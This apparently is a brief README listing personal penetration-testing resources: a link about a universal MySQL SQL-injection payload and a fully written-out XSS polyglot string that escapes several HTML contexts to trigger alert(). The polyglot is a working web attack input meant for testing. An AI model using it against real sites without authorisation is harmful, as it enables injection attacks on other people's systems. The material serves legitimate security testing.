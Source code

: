 # seclinks
Collection of my various security/penetration testing resources

SQL Injection:  
    MySQL universal SQLi payload:  
    https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/

XSS:  
    XSS Polyglot:  

> jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e


    https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot
